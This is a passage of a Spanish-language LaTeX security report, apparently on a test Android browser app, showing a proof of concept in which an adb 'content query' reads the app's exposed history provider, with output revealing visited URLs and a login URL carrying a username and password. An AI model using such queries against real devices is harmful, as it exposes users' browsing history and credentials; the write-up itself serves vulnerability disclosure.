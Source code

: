 \documentclass[11pt, a4paper, twoside]{article}
\begin{document}
\vspace{-30pt}
\subsubsection{Prueba de Concepto}
A continuación se muestra un query al content provider \textbf{history\_provider}, realizado con el comando \texttt{content} del shell de Android. Antes de ello, se navegó a través de algunas páginas con usuarios distintos, Google y Facebook con el primer usuario, y Taringa con el segundo usuario.

\begin{verbatim}
$ adb shell content query --uri "content://ar.sadosky.browser.history_provider/history"
Row: 0 url_visited=about:blank
Row: 1 url_visited=http://www.google.com.ar/
Row: 2 url_visited=http://www.google.com.ar/intl/es-419/policies/privacy/?fg=1
Row: 3 url_visited=https://facebook.com/
Row: 4 url_visited=https://www.facebook.com/?_rdr
Row: 5 url_visited=https://m.facebook.com/?_rdr&refsrc=https%3A%2F%2Fwww.facebook.com%2F
Row: 6 url_visited=https://mail.google.com/mail/
Row: 7 url_visited=https://accounts.google.com/ServiceLogin?service=mail&passive=true
&continue=https://mail.google.com/mail/?ui%3Dmobile%26zyp%3Dl&scc=1&ltmpl=ecobx
&nui=5&btmpl=mobile&emr=1
Row: 8 url_visited=http://www.taringa.net/
Row: 9 url_visited=http://m.taringa.net/
Row: 10 url_visited=http://www.taringa.net/login.html?user=taringuero&pass=1234
Row: 11 url_visited=http://m.taringa.net/posts/hazlo-tu-mismo/18505791/
Te-enseno-a-hacer-una-mochila-3.html
\end{verbatim}

Como se puede apreciar, por las razones expuestas anteriormente, todo el historial de los usuarios puede ser obtenido muy fácilmente. No sólo es posible ver eso, sino también que el historial de todos los usuarios de la aplicación se encuentra guardado sin distinción del usuario que lo produjo, por lo que todos los usuarios comparten el mismo historial.

El hecho de que el historial sea accesible por cualquier aplicación, representa no solo una brecha a la privacidad del usuario, sino que también existe el peligro de robo de sesiones/credenciales de los sitios en que navega el usuario, suponiendo que alguno de estos datos sean enviados a través de peticiones GET\footnote{Lo cual en sí ya representa una vulnerabilidad}.

%
%
\clearpage
{}
\section{Vulnerabilidades de Red}
%
%
\end{document}
